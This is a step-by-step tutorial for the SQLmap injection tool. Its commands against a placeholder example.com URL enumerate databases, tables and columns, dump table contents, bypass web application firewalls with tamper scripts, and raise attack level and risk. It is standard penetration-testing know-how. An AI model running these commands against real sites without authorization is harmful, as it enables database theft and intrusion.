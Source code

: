 ### Guide to Using SQLmap

1. **Installation:**

   You can install SQLmap via `pip` or clone it from GitHub:

   ```bash
   sudo apt-get install sqlmap
   ```

   Alternatively, you can clone the repository:

   ```bash
   git clone https://github.com/sqlmapproject/sqlmap.git
   cd sqlmap
   ```

2. **Basic Usage:**

   The basic syntax to run SQLmap is:

   ```bash
   sqlmap -u <URL>
   ```

   For example, to test a vulnerable URL:****

   ```bash
   sqlmap -u "http://example.com/vulnerable_page?id=1"
   ```

3. **Identify Database Information:**

   To enumerate the databases, use the `--dbs` option:

   ```bash
   sqlmap -u "http://example.com/vulnerable_page?id=1" --dbs
   ```

   This command will list all databases on the server if the parameter is vulnerable.

4. **Select a Specific Database:**

   Once you have identified the databases, select one to enumerate its tables:

   ```bash
   sqlmap -u "http://example.com/vulnerable_page?id=1" -D <database_name> --tables
   ```

   Replace `<database_name>` with the actual database name.

5. **Retrieve Table Columns:**

   After identifying the tables, get the columns of a specific table:

   ```bash
   sqlmap -u "http://example.com/vulnerable_page?id=1" -D <database_name> -T <table_name> --columns
   ```

   Replace `<table_name>` with the actual table name.

6. **Dump Table Data:**

   To dump the data from a specific table, use:

   ```bash
   sqlmap -u "http://example.com/vulnerable_page?id=1" -D <database_name> -T <table_name> --dump
   ```

   This will retrieve and display the data from the specified table.

7. **Advanced Options:**

   - **Bypass WAF:** If a Web Application Firewall (WAF) is present, use:
     ```bash
     sqlmap -u "http://example.com/vulnerable_page?id=1" --tamper=<tamper_script>
     ```
     SQLmap includes several tamper scripts designed to bypass WAFs.

   - **Authentication:** For pages that require login, use session cookies:
     ```bash
     sqlmap -u "http://example.com/vulnerable_page?id=1" --cookie="PHPSESSID=<session_id>"
     ```

   - **POST Requests:** To test POST parameters:
     ```bash
     sqlmap -u "http://example.com/vulnerable_page" --data="param1=value1&param2=value2"
     ```

   - **Specify Database Management System (DBMS):** To optimize the attack for a specific DBMS:
     ```bash
     sqlmap -u "http://example.com/vulnerable_page?id=1" --dbms=mysql
     ```

   - **Level and Risk:** Increase the level and risk to test more parameters and payloads:
     ```bash
     sqlmap -u "http://example.com/vulnerable_page?id=1" --level=5 --risk=3
     ```

### Example of a Complete SQLmap Command:

Here’s an example combining several options:

```bash
sqlmap -u "http://example.com/vulnerable_page?id=1" --cookie="PHPSESSID=abcdef123456" --dbms=mysql --level=5 --risk=3 --dbs
```
